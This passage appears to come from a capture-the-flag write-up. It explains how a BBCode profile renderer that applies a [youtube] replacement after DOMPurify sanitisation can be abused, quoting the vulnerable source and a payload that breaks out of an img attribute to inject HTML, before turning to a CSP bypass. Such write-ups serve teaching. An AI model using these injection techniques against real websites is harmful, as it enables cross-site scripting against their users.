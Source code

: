 However, it seems like these brackets are being escaped

## Bypassing of angled brackets

{% ccb lang:js gutter1:42-64 highlight:15 caption:app.js %}
const window = new JSDOM('').window;
const purify = DOMPurify(window);
const renderBBCode = (data) => {
    data = data.replaceAll(/\[b\](.+?)\[\/b\]/g, '<strong>$1</strong>');
    data = data.replaceAll(/\[i\](.+?)\[\/i\]/g, '<i>$1</i>');
    data = data.replaceAll(/\[u\](.+?)\[\/u\]/g, '<u>$1</u>');
    data = data.replaceAll(/\[strike\](.+?)\[\/strike\]/g, '<strike>$1</strike>');
    data = data.replaceAll(/\[color=#([0-9a-f]{6})\](.+?)\[\/color\]/g, '<span style="color: #$1">$2</span>');
    data = data.replaceAll(/\[size=(\d+)\](.+?)\[\/size\]/g, '<span style="font-size: $1px">$2</span>');
    data = data.replaceAll(/\[url=(.+?)\](.+?)\[\/url\]/g, '<a href="$1">$2</a>');
    data = data.replaceAll(/\[img\](.+?)\[\/img\]/g, '<img src="$1" />');
    return data;
};
const renderBio = (data) => {
    data = data.replaceAll(/</g, "&lt;").replaceAll(/>/g, "&gt;");
    const html = renderBBCode(data);
    const sanitized = purify.sanitize(html);
    // do this after sanitization because otherwise iframe will be removed
    return sanitized.replaceAll(
        /\[youtube\](.+?)\[\/youtube\]/g,
        '<iframe sandbox="allow-scripts" width="640px" height="480px" src="https://www.youtube.com/embed/$1" frameborder="0" allowfullscreen></iframe>'
    );
};
{% endccb %}

If we use `renderBBCode()` to insert an `img` tag with `[img]aaa[/img]`, we do not get escaped angled brackets:

```html
<img src="aaa"/>
```

Now we need some way to input `"` without it being escaped or being sanitized by DOMPurify. Since the `[youtube][/youtube]` replacement occurs *after* sanitize, we can construct a payload like: `[img][youtube]a[/youtube]<h1>balls</h1>[/img]`:

{% ccb lang:html wrapped:true caption:/profile %}
<img src="<iframe sandbox="allow-scripts" width="640px" height="480px" src="https://www.youtube.com/embed/a" frameborder="0" allowfullscreen></iframe><h1>balls</h1>">
{% endccb %}

## error message javascript polyglot

When we try inserting `<script>console.log(1)</script>`, we get blocked by the csp:
